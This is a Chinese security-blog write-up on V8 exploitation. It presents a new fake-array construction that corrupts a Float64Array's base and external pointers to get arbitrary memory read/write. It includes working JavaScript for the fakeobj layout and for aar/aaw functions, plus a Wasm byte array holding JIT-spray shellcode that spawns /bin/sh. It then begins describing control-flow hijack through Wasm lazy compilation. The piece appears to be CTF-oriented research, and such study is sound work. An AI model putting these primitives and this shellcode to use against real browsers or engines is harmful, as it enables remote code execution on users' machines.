# FakeArray 的新构造 + 劫持 Wasm LazyCompile 实现通用控制流劫持-先知社区

> **来源**: https://xz.aliyun.com/news/18300  
> **文章ID**: 18300

---

> **注：****本文后续的内容主要围绕新型的通用利用链研究，并不探讨如何****Sandbox Escape**和构造`addrOf()`、`fakeObject()`这样的前置流程。因为在沙盒逃逸和内存损坏利用时，往往依靠不同的漏洞poc或是patch，所需要的手法大相径庭，需要具体问题具体对待。本文主要探讨已经能够通过漏洞实现`addrOf()`、`fakeObject()`这样的原语后，如何最终实现程序流完整控制的通用手法。 因此后续的环境以及`%DebugPrint()`展示信息均是在去除Sandbox的条件下测试所得。
>
> **额外:** 如果对于Sandbox Escape感兴趣，也可以查看我之前的文章，有从Sandbox Escape issue POC到完整利用EXP的完成过程:[【V8】Sandbox Escape Issue: 361862752复现](https://loora1n.github.io/2025/04/15/%E3%80%90V8%E3%80%91Sanbox%20Escape%E5%A4%8D%E7%8E%B0issue%20361862752/)

## 前言

在V8利用中，我们常常需要任意地址读写原语，并通过篡改RWX段内容或更改函数对象内的code指针，来实现控制执行流的作用。更通用的说，利用往往服从于这样的链路：

1. 构造`addressOf()`, `fakeObject()`函数
2. 借助`addressOf()`, `fakeObject()`函数伪造**fake\_array**
3. 利用**fake\_array**实现堆内**AAW**和**AAR**原语
4. 进一步获取原始指针范围的任意地址读写

* 有沙盒，则借助漏洞实现沙盒逃逸
* 无沙盒，借助`DataView()`等存在原始指针的对象

1. 控制程序执行流

其中，为了实现更通用的堆内任意地址读写，构造`fake_array`是一个常见的手法：

> 这里不做过多阐述，仅简单提及：
>
> 通过 `addressOf()` 获取 **fake\_array** 的地址，然后就能够计算出 **element** 的元素地址；再通过 `fakeObject()` 将这个地址伪造成一个对象数组。

```
var fake_array=[double_array_map,int_to_float(0x4141414141414141n)]
```

构造完成后，通过更改**fake\_array**的存储内容，即可让伪造内部结构的elements索引到其他地址，从而实现堆内任意地址访问。

## elements结构校验

> 但是上述的利用逻辑潜在得包含了一个条件:**就是elements的内部结构好像并不重要**，只需要讲`JSArray`对象的`elements`指针索引到对应地址即可实现对虚拟内存的读写操作，而不需要在目的地址伪造`elements`所需要的`map`和`length`。

然而在最近的一个CTF比赛中，我在尝试解决其中的V8题目时，遇到了这样的问题：



对应的d8版本为13.5.0，commit为：`c963fb98a204005df30553bec7bbbe1997e0ab5f`



我已经成功的利用漏洞构造了`addressOf()`函数和`fakeObject()`函数，却在使用**fake\_array**进行任意地址读写的构造时，出现了上述报错

在源码文件`/src/objects/js-objects-inl.h`中，可以找到相关代码如下:

```
...
DEF_GETTER(JSObject, GetElementsKind, ElementsKind) {
  ElementsKind kind = map(cage_base)->elements_kind();
#if VERIFY_HEAP && DEBUG
  Tagged<FixedArrayBase> fixed_array = UncheckedCast<FixedArrayBase>(
      TaggedField<HeapObject, kElementsOffset>::load(cage_base, *this));

  // If a GC was caused while constructing this object, the elements
  // pointer may point to a one pointer filler map.
  if (ElementsAreSafeToExamine(cage_base)) {
    Tagged<Map> map = fixed_array->map(cage_base);
    if (IsSmiOrObjectElementsKind(kind)) {
      CHECK(map == GetReadOnlyRoots(cage_base).fixed_array_map() ||
            map == GetReadOnlyRoots(cage_base).fixed_cow_array_map());
    } else if (IsDoubleElementsKind(kind)) {
      CHECK(IsFixedDoubleArray(fixed_array, cage_base) ||
            fixed_array == GetReadOnlyRoots(cage_base).empty_fixed_array());
    } else if (kind == DICTIONARY_ELEMENTS) {
      CHECK(IsFixedArray(fixed_array, cage_base));
      CHECK(IsNumberDictionary(fixed_array, cage_base));
    } else {
      CHECK(kind > DICTIONARY_ELEMENTS || IsAnyNonextensibleElementsKind(kind));
    }
    CHECK_IMPLIES(IsSloppyArgumentsElementsKind(kind),
                  IsSloppyArgumentsElements(elements(cage_base)));
  }
#endif
  return kind;
} 
...
```

> 直接说结论：当存在VERIFY\_HEAP和DEBUG时，会校验elements的map域是否合理。也就是说如果此时需要借助**fake\_array**，进行任意地址读写，需要提前在目标地址留下合适的elements结构。

### 代码逻辑分析

#### 获取JSArray对象的map

```
ElementsKind kind = map(cage_base)->elements_kind();
```

这里的`map()`获取的是JSArray对象（也就是this对象）的map，`elements_kind()`用于返回elements本应该具有的类型

#### 获取elements中存储的map

```
Tagged<FixedArrayBase> fixed_array = UncheckedCast<FixedArrayBase>(
      TaggedField<HeapObject, kElementsOffset>::load(cage_base, *this));
...
Tagged<Map> map = fixed_array->map(cage_base);
```

`TaggedField<HeapObject, kElementsOffset>::load(...)`是从JSArray（this）的偏移量`kElementsOffset`处加载`.elements`指针，这里的**fixed\_array**实际对应elements对象，之后的map变量对应elements中存储的map

#### CHECK()校验elements->map

```
if (IsSmiOrObjectElementsKind(kind)) {
      CHECK(map == GetReadOnlyRoots(cage_base).fixed_array_map() ||
            map == GetReadOnlyRoots(cage_base).fixed_cow_array_map());
    } else if (IsDoubleElementsKind(kind)) {
      CHECK(IsFixedDoubleArray(fixed_array, cage_base) ||
            fixed_array == GetReadOnlyRoots(cage_base).empty_fixed_array());
    } else if (kind == DICTIONARY_ELEMENTS) {
      CHECK(IsFixedArray(fixed_array, cage_base));
      CHECK(IsNumberDictionary(fixed_array, cage_base));
    } else {
      CHECK(kind > DICTIONARY_ELEMENTS || IsAnyNonextensibleElementsKind(kind));
    }
```

最后根据JSArray对象的map进入对应分支，然后进一步对elements的map进行校验。

#### 示例

以如下js代码为例

```
let array = [1.1, 2.2];
array[0] = 3.3;
```

其`DebugPrint()`简要信息如下：

```
DebugPrint: 0x3c9c0008bd41: [JSArray]
 - map: 0x3c9c001882fd <Map[16](PACKED_DOUBLE_ELEMENTS)> [FastProperties]
...
...
 - elements: 0x3c9c0008bd59 <FixedDoubleArray[2]> {
           0: 1.1
           1: 2.2
 }
...
...
pwndbg> job 0x3c9c0008bd59 
0x3c9c0008bd59: [FixedDoubleArray]
 - map: 0x3c9c000008a1 <Map(FIXED_DOUBLE_ARRAY_TYPE)>
 - length: 2
           0: 1.1
           1: 2.2
```

那么在进行赋值语句时，便会进行上述的`CHECK`流程。由于JSArray对象的类型为**PACKED\_DOUBLE\_ELEMENTS**，因此会进入如下分支

```
else if (IsDoubleElementsKind(kind)) {...}
```

然后进一步查看elements所存储的map类型是否为**FIXED\_DOUBLE\_ARRAY**或者elements指向一个空数组（**empty\_fixed\_array**）。

#### 结论

考虑我们常用的**fake\_array**结构，elements往往直接被索引到**target\_addr-0x8**，而不考虑该地址是否恰好有合适的`fixed_array_map`存在。进而就会导致`CHECK`报错，那么在当前情况下是无法借助**fake\_array**伪造`DoubleArray`对象来实现堆内的任意地址写



> **target\_addr-0x8**是因为elements本身结构存在 32bit map 和 32bit length结构，因此实际数据索引是从**elements\_addr+0x8**地址开始

## JSTypedArray

这里先补充一个`JSTypedArray`对象结构，在js中创建方式如下:

```
let array1 = new Float64Array(1);
let array2 = new Float64Array(0x1000);
%DebugPrint(array1);
%DebugPrint(array2);
```

其实就是我们最常用的数据类型转换时使用的结构，举例`i2f()`函数

```
var f64 = new Float64Array(1);
var bigUint64 = new BigUint64Array(f64.buffer);
var u32 = new Uint32Array(f64.buffer);

function i2f(i) {
    bigUint64[0] = i;
    return f64[0];
}
...
```

### inline

如果观察`JSTypedArray`对象的结构，先来看看容量较小的`array1`



这里红框标出的**data\_ptr**就是用来指向真实的数据存储内存空间。可以明显的看到，在`array1`中data\_ptr指向的空间就是`elements`对象的数据存储位置，如果查看buffer的内容，会发现与此时的**data\_ptr**并不直接相关，且**backing\_store**指针直接为空



另外也能观察到**data\_ptr**的实际取值是由**base\_pointer**和**external\_pointer**共同决定的，满足:  
$$  
dataptr = baseponiter + externalpointer  
$$  
最重要的一点，就是**base\_pointer**和**external\_pointer**居然直接存储在对象内存空间内:



* **external\_pointer**: 存储在偏移0x30的位置，为8个字节的**原始指针**，这里的值为`0x26d900000007`
* **base\_pointer**: 存储在偏移0x38的位置，为4个字节的堆内压缩指针，这里的值为`0x55a41`
* **data\_ptr**: $0x26d900055a48 = 0x26d900000007 + 0x55a41$

> 对于小的 TypedArray，会采用 **内联存储（inline elements）**，即：不从堆外单独分配一块 memory，而是把数据直接放在 TypedArray 的 `elements`字段中。

### external

我们再来看看容量较大一点的TypedArray结构，如图



此时就能明显的看到**data\_ptr**正是buffer对象的backing\_store指针内容，内存中的**external\_pointer**变成了完整指针，而**base\_pointer**为0



### 如何利用？

说到这里，已经比较明显了，如果我们能够控制**base\_pointer**和**external\_pointer**的值，就可以控制**data\_ptr**指针指向任意64bit地址，实现在原始指针范围内的任意地址读写，而不仅仅是堆上的任意地址读写。另外，由于data\_ptr直接指向内存存储区域，无需像现在的elements一样担心被检查目标地址的结构信息。

**一旦真正控制了data\_ptr，AAR和AAW只需通过JSTypedArray本身的索引访问便能够做到了。**

> **信息补充**：看到这里，有经验的pwner肯定会想到，在开启Sandbox后，如果external\_pointer还是存储raw pointer，显然会导致沙盒溢出的问题。那么实际上，在开启沙盒的情况下，**external\_pointer**并不会存储原始指针（防止沙盒逃逸），而是`<< 24bit`的去除高位的指针，因此计算式也变成了  
> $$  
> dataptr = (externalpointer >> 24) + basepointer + Sandbox.base  
> $$  
> 但是这里并不是完全没有问题，我们知道**base\_pointer**是32位无符号整数，**external\_pointer**在内存中是左移了24位的64位无符号数。当存在沙盒内的内存损坏漏洞是，若能将两个内容设置为最大值即：
>
> * **external\_pointer: 0xFFFF\_FFFF\_FF00\_0000**
> * **base\_pointer: 0xFFFF\_FFFF**
> * 两者之和就会存在溢出为**0x0100\_FFFF\_FFFE**，即：存在一定范围内堆外越界访问的可能性

## 如何控制data\_ptr

> **前提条件：**这里我们假设，已经通过V8本身漏洞或是CTF题目的patch漏洞，成功构造了`addrOf()`和`fakeObject()`原语

### 全新的fake\_array

为了控制JSTypedArray的data\_ptr，我将引入一个全新的**fake\_array**构造方式，如下：

```
let fake_array = [
    u2f(0x001882fd, 0x00000745), // 0 map , properties
    u2f(0x41414141, 0x00001000), // 1 elements, length
    u2f(0x000008a1, 0x00001000), // elements_map, elements_length
    6.6, // buffer
];

let fake_array_addr = addrof(fake_array);
let fake_obj_addr = fake_array_addr + 0x6Cn; // 0X6C偏移需要具体调试具体分析

fake_array[1] = u2f(i2u_l(fake_obj_addr + 0x10n), 0x00001000); 
let fake_obj = fakeobj(fake_obj_addr);
```

总体可以分为两个部分: 伪造和覆盖写。这个完整的fake\_array将通过越界读写的方式来控制，JSTypedArray的data\_ptr，而非elements导向的方式。

#### 伪造doubleArray和对应elements

```
u2f(0x001882fd, 0x00000745), // 0 map , properties
u2f(0x41414141, 0x00001000), // 1 elements, length
```

这里很明显对应了doubleArray的基本对象结构，map、properties、element、length部分。其中map&properties的压缩指针一般比较固定，直接复制粘贴一个现有的double\_array的内存内容即可。elements的内容当前只做占位，后续用伪造的elements结构替换，length需要较大的值，以便于后续的越界读写操作。

```
u2f(0x000008a1, 0x00001000), // elements_map, elements_length
6.6, // buffer
```

这两行则是不全了elements对象的map、length以及一个简短的buffer。同样的，elements.map的压缩指针依然比较固定，直接复制一个对应的即可。这样就完成了一个初步的伪造。

#### 覆盖fakeobj.elements

剩余的部分也比较直接，用来覆盖elements的占位，将伪造的两个对象连接起来

```
let fake_array_addr = addrof(fake_array);
let fake_obj_addr = fake_array_addr + 0x6Cn;

fake_array[1] = u2f(i2u_l(fake_obj_addr + 0x10n), 0x00001000); 
let fake_obj = fakeobj(fake_obj_addr);
```

> 这里的0x6C偏移需要具体通过`%DebugPrint()`进行确认，不同的堆布局所对应偏移值也大不相同

完成这两部我们就伪造了一个可以越界访问的doubleArray，结构也比较明显

```
fake_array.elements Memory 结构如下：

                            +-----------------------+-----------------------+
Fake doubleArray Object ==>	| 32bit doublearray_map | 32bit properties      | 
                          +-----------------------+-----------------------+ 
                          | 32bit elements        | 32bit length          |  
                          +-----------------------+-----------------------+ 
  Fake elements Object ==>  | 32bit elements_map    | 32bit elements_length |  
                          +-----------------------+-----------------------+
                          |          64bit float number 6.6               | 
                            +------------------------------------------------+
```

其中elements存储覆盖后的值为 **fake\_double\_array\_addr + 0x10**，也就是让fake double array的elements索引到了fake elements Object

#### fake\_obj越界读写

接下来只需要在后续附近堆区域创建一个JSTypedArray，然后计算偏移进行越界读写即可

```
let js_typed_array = new Float64Array(1);
%DebugPrint(js_typed_array);
let js_typed_array_addr = addrof(js_typed_array);
console.log("js_typed_array_addr: " + convertToHex(js_typed_array_addr));
let base_pointer_offset = (js_typed_array_addr - fake_obj_addr + 0x20n) / 8n;
console.log("base_pointer_offset: " + base_pointer_offset);
let temp = f2i(fake_obj[base_pointer_offset]);
fake_obj[base_pointer_offset] = i2f((temp & 0xffff_ffff_0000_0000n) + 0x41414141n);
```

效果如图：



#### AAR & AAW

这里我以堆内任意地址写为例，将上面的poc封装为任意地址读写函数。

```
function aar(addr)
{
    if(addr & 1n) {
        addr -= 1n;
    }
    addr -= 7n;
    let temp = f2i(fake_obj[base_pointer_offset]);
    fake_obj[base_pointer_offset] = i2f((temp & 0xffff_ffff_0000_0000n) + addr);
    return js_typed_array[0];
}

function aaw(addr, value)
{
    if(addr & 1n) {
        addr -= 1n;
    }
    addr -= 7n;
    let temp = f2i(fake_obj[base_pointer_offset]);
    fake_obj[base_pointer_offset] = i2f((temp & 0xffff_ffff_0000_0000n) + addr);
    js_typed_array[0] = i2f(value);
}
```

如果想要原始指针范围内的任意地址写，只需要覆盖**external\_pointer**，然后清空**base\_pointer**即可。

```
let temp = f2i(fake_obj[base_pointer_offset]);
fake_obj[base_pointer_offset] = i2f((temp & 0xffff_ffff_0000_0000n));

function aar(addr)
{
    if(addr & 1n) {
        addr -= 1n;
    }
    addr -= 7n;
    let temp = f2i(fake_obj[external_pointer_offset]);
    fake_obj[external_pointer_offset] = i2f(addr);
    return js_typed_array[0];
}

function aaw(addr, value)
{
    if(addr & 1n) {
        addr -= 1n;
    }
    addr -= 7n;
    let temp = f2i(fake_obj[external_pointer_offset]);
    fake_obj[external_pointer_offset] = i2f(addr);
    js_typed_array[0] = i2f(value);
}
```

简单测试一下代码逻辑，可以正常进行任意地址读写操作

```
let array1 = [1.1, 2.2, 3.3];
let array1_elements_addr = addrof(array1) + 0x18n;

let leak = aar(array1_elements_addr + 0x8n);
console.log("leak: " + convertToHex(f2i(leak)));

aaw(array1_elements_addr + 0x8n, 0x41414141n);
```



## 程序流控制

在上一篇文章中，已经具体提到了如何通过覆盖**WasmTrustedInstanceData.jump\_table\_start**来控制执行流的具体流程，本文也将采用这种方法，并深入利用逻辑原理。

> 前文链接[【V8】UMDCTF2025 literally-1984/1985 WriteUp](https://xz.aliyun.com/news/18274)

我们先把shellcode的前置拿过来

```
let shell_wasm_code = new Uint8Array([
    0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0,
    1, 7, 17, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 133, 1, 1,
    130, 1, 0, 65, 0, 68, 0, 0, 0, 0, 0, 0, 0, 0, 57, 3, 0, 65, 0, 68, 106, 59, 88, 144, 144, 144,
    235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 115, 104, 0, 91, 235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 98,
    105, 110, 89, 235, 11, 57, 3, 0, 65, 0, 68, 72, 193, 227, 32, 144, 144, 235, 11, 57, 3, 0, 65, 0,
    68, 72, 1, 203, 83, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 72, 137, 231, 144, 144, 144, 235, 11,
    57, 3, 0, 65, 0, 68, 72, 49, 246, 72, 49, 210, 235, 11, 57, 3, 0, 65, 0, 68, 15, 5, 144, 144, 144,
    144, 235, 11, 57, 3, 0, 65, 42, 11,
]);
let shell_wasm_module = new WebAssembly.Module(shell_wasm_code);
let shell_wasm_instance = new WebAssembly.Instance(shell_wasm_module);
let shell_func = shell_wasm_instance.exports.main;
```

这里的WASM代码实际复制了使用JIT-Spary手法，并由Turbofan优化后的汇编代码，看图中关键部分即可知：



> * 这种手法的基本目的就是尝试通过各种方式是的程序从浮点立即数返回的汇编码附近，错位执行即可
> * 关于JIT Spary具体内容不做过多介绍，可以自行检索资料

在过去通过WASM的利用往往通过以下一些方式:

* 通过像WASM空间任意地址写入shellcode，从而劫持程序执行流
* 通过篡改**Function ==> Code ==> instruction\_start**指针内容，以实现JIT Spary的手法
* 其他...

但随着版本的变化，这些手法都遇到许多不同程度的限制，因此本文将提出一种新的基于WASM的劫持程序流方式。

### WASM函数的调用

在正式调用函数内容之前，首先会调用**Function.Code.instruction\_start**的内容，而此时**Code**本身是`- code: 0x107a002b05f1 <Code BUILTIN JSToWasmWrapper>`，也就是WASM外层的封装函数。

> `JSToWasmWrapper`大致的职责是：
>
> * 检查/转换 JS 传参类型；
> * 执行内联缓冲；
> * 调用实际的 Wasm 函数；
> * 处理返回值；
> * 如果失败，还能抛 JS 异常等。



然后调用多次`CheckObjectType()`后，进入函数：`Builtins_JSToWasmWrapperAsm()`



在`JSToWasmWrapperAsm`内部很快便会正式开始调用wasm代码



如果查看调用地址的相关信息，能够很容易的看到wasm初次调用时的**延迟编译Lazy Compilation**

